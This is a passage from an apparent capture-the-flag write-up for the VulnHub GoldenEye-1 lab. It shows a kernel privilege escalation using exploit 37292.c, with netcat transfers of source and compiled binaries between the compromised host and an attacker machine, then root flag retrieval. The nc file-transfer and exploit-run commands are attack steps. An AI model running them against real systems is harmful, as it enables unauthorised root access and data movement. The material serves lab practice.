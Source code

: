 		- `/tmp/ofs-lib.c` is created on target
	3.  Transfer `/tmp/ofs-lib.c` to kali
		```
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# nc -nvlp 4444 > ofs-lib.c
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		
		www-data@ubuntu:/tmp/kernel_exploit$ nc 192.168.236.4 4444 < /tmp/ofs-lib.c
		```
	4.  Compile `/tmp/ofs-lib.c` on kali
		```
		gcc -m64 -fPIC -shared -o ofs-lib.so ofs-lib.c -ldl -w
		```
	5. Remove `Line 138-147` from `37292.c`
		![](images/Pasted%20image%2020220128170136.png)
	6. Recompile `37292.c`
		```
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# rm exploit 
		
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# gcc -m64 37292.c -o exploitNew
		37292.c: In function ‘main’:
		...
		```
	7. Transfer `exploitNew` & `ofs-lib.so` to target
		```
		# Transfer ofs-lib.so
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# nc -nvlp 4444 < ofs-lib.so
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		
		www-data@ubuntu:/tmp/kernel_exploit$ nc 192.168.236.4 4444 > /tmp/ofs-lib.so
		
		# Transfer exploitNew
		┌──(root💀kali)-[~/vulnHub/GoldenEye-1/192.168.236.12/exploit/kerne1]
		└─# nc -nvlp 4444 < exploitNew
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444

		www-data@ubuntu:/tmp/kernel_exploit$ nc 192.168.236.4 4444 > exploitNew

		```
	6. Run exploit on target again
		```
		chmod +x exploitNew
		./exploitNew
		```
		![](images/Pasted%20image%2020220128172433.png)
	7. Root Flag
		```
		# cat .flag.txt
		Alec told me to place the codes here: 
